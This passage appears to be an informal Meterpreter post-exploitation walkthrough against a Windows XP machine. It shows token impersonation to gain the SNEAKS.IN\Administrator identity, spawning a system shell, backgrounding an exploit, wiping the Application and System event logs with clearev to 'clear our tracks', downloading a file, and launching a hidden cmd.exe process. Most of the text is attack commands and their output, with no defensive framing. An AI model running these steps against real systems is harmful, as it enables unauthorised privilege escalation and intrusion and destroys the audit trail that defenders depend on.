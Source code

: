 meterpreter>

meterpreter> impersonate_token SNEAKS.IN\\Administrator
[+] Delegation token available
[+] Successfully impersonated user SNEAKS.IN\Administrator
meterpreter> getuid
Server username: SNEAKS.IN\Administrator
meterpreter>

meterpreter> shell
Process 2804 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
whoami
SNEAKS.IN\administrator

C:\WINDOWS\system32>

Done!


[ + ] Is it possible for me to run an exploit through meterpreter as a background job?
--> Yup.
meterpreter> run -j
[*] Exploit running as background job.


[ + ] Lets clear our tracks.

meterpreter> clearev
[*] Wiping 97 records from Application...
[*] Wiping 415 records from System...
[*] Wiping 0 records from Security...
meterpreter>

Nice.

[ + ] File Transfer:

meterpreter> download C:\\boot.ini
[*] downloading: C:\boot.ini -> C:\boot.ini
[*] downloaded : C:\boot.ini -> C:\boot.ini/boot.ini
meterpreter>

Similarly, we can perform uploads to the target system with the 'upload' command. This will expect an absolute path on your local file system to the file you wish you transfer over.

+ How can I execute something on the target machine?

meterpreter> execute -f cmd.exe -i -H
Process 38320 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
